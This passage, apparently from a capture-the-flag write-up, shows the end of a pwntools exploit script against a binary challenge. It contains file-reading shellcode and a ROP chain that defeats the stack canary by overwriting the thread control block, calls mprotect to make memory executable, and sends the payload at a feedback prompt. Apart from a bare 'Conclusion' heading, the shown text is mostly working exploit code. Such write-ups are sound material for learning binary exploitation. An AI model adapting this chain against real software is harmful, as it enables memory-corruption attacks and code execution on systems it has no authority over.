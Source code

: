 ```python
            mov r9,0x67616c66
            push r9
            push rsp
            pop rsi
            mov rdx,0
            mov r10,0644
            syscall
            mov rax,0
            mov rdi,0
            lea rsi,[rsp-0x200]
            mov rdx,0x50
            syscall
            mov rax,1
            mov rdi,1
            syscall
            ''')
    #Gadgets
    mprotect = libc_base + LIBC.symbols['mprotect']
    pop_rdi = libc_base + 0x0000000000026b72
    pop_rsi = libc_base + 0x0000000000027529
    pop_rdx_junk = libc_base + 0x00000000001626d6
    mmap_base = libc_base - 0x5000
    log.info("mmap_base = " + hex(mmap_base))
    shellcode_addr = mmap_base + 0xf20
    fflush = libc_base + LIBC.symbols['fflush']
    stdout = libc_base + LIBC.symbols['_IO_2_1_stdout_']
    rbp = libc_base - 0x4130
    #Adding ROP chain for buffer overflow vuln, the idea is to overwrite TCB structure from where the segment register actually takes canary for checking ,thus overwriting the original canary and triggering overflow
    payload = 'a'*0x80 + p64(rbp)
    payload += p64(pop_rdi)
    payload += p64(mmap_base)
    payload += p64(pop_rsi)
    payload += p64(0x10000)
    payload += p64(pop_rdx_junk)
    payload += p64(7)*2
    #We intend to call mprotect to make mmaped region itself executable
    payload += p64(mprotect)
    payload += p64(shellcode_addr)
    payload += shellcode
    payload += 'a'*(0x8e8 - len(payload))
    log.success('Getting flag')
    sla("feedback: ",payload)
    io.interactive()

```

## Conclusion
